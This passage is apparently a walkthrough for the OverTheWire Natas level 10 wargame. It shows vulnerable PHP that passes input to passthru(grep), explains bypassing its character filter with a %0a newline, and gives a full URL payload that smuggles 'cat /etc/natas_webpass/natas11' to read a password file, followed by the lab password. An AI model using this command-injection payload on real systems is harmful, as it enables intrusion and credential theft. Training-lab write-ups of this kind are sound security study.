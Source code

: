 **Connection**

Level url: [http://natas10.natas.labs.overthewire.org/](http://natas10.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - You can access the code by doing the shortcut `Cmd + Shift + C` (for Mac) or `Ctrl + Shift + C` (for Windows)
2. Step 2 - You can see there is a `Search bar` so we have to do something with it to get the password. Let's `View sourcecode`
3. Step 3 - Unlike level 9 this level has block `;` so we have to do something else. There is a PHP code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
**We can try different method by using `%0a` in the terminal, to stimulate exactly like the `Enter` and gets the password.**

4. Step 4 - Add `needle=anything%0acat /etc/natas_webpass/natas11` to `needle` query params in the URL => [http://natas10.natas.labs.overthewire.org/?needle=anything%0acat%20/etc/natas_webpass/natas11&submit=Search](http://natas10.natas.labs.overthewire.org/?needle=anything%0acat%20/etc/natas_webpass/natas11&submit=Search) and get the password.
- It will run 2 separate commands:
    - `grep -i anything dictionary.txt`
    - `cat /etc/natas_webpass/natas11`
5. Step 5 - Take the password to the next level.

**Next Level Password**

`UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`

---

## Natas Level 11 → Level 12
(Updated: 13 August 2025)

**Credentials**
- **Username:** `natas11`
- **Password:** `UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`

**Connection**
